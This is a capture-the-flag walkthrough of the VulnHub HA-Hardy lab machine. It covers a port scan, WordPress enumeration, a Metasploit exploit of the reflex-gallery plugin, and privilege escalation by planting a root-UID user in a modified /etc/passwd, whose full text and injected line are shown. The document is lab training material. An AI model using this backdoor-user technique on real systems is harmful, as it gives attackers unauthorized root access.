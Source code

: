# HA-HARDY

Lets Check the IP address of the victim machine ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled.png)

```
IP : 10.0.2.36
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/ha_hardy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.36
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 21:19 IST
Nmap scan report for 10.0.2.36
Host is up (0.00060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:D4:FE:FC (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%201.png)

got a directory —> `/wordpress/` 

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%202.png)

with wpscan tool I got 2 users ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%203.png)

I also found a vulnerability through wpscan in `reflex-gallery plugins` of wordpress so lets exploit it now >>

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%204.png)

Now with metasploit I exploit this >>

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%206.png)

Now lets run this ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%207.png)

Now lets look into `wp-config.php` file ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%209.png)

Now let’s see the SUID’s files ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2010.png)

So I think with this I will copy the /etc/passwd file , access with wget and modify with new user addon.

Now let’s access the passwd file in attackers machine ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2011.png)

Now lets add a user named as `shiv` and `password`as password in passwd file. 

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2012.png)

Lets see the passwd file ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/ha_hardy]
└─$ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
raj:x:1000:1000:raj,,,:/home/raj:/bin/bash
mysql:x:122:128:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:124:65534::/run/sshd:/usr/sbin/nologin
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

Now let’s transfer this file ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2013.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2014.png)

```bash
root@ubuntu:~# cat proof.txt
cat proof.txt
_________________________________________________________________________
 _____     _   _   U _____ u     U _____ u   _   _       ____     	|	
 |_ " _|   |'| |'|  \| ___"|/     \| ___"|/  | \ |"|     |  _"\   	|
   | |    /| |_| |\  |  _|"        |  _|"   <|  \| |>   /| | | |  	|	
  /| |\   U|  _  |u  | |___        | |___   U| |\  |u   U| |_| |\ 	|
 u |_|U    |_| |_|   |_____|       |_____|   |_| \_|     |____/ u 	|
 _// \\_   //   \\   <<   >>       <<   >>   ||   \\,-.   |||_    	|
(__) (__) (_") ("_) (__) (__)     (__) (__)  (_")  (_/   (__)_)   	|
									|
									|
!! Congrats you have finished this task !!				|
									|
Contact us here:							|
									|
Hacking Articles : https://twitter.com/rajchandel/			|
									|
									|
+-+-+-+-+-+ +-+-+-+-+-+-+-+						|
 |E|n|j|o|y| |H|A|C|K|I|N|G|						|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+						|
________________________________________________________________________|

                                                

root@ubuntu:~#
```